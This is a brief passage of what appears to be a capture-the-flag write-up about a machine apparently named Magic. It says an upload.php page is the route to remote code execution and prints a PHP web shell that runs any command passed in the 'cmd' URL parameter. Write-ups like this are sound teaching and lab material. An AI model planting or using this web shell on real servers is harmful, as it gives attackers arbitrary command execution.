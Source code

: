 <img src="/assets/img/magic/Untitled 7.png" alt="Untitled 7.png" style="width:800px;">

Now we can interact with an upload.php file, which appears to be the way to RCE.

<img src="/assets/img/magic/Untitled 8.png" alt="Untitled 8.png" style="width:800px;">

This will be our payload for now.

```php
<?php
        $cmd = system($_GET['cmd']);
        echo "<pre>" . $cmd . "</pre>";
?>
```
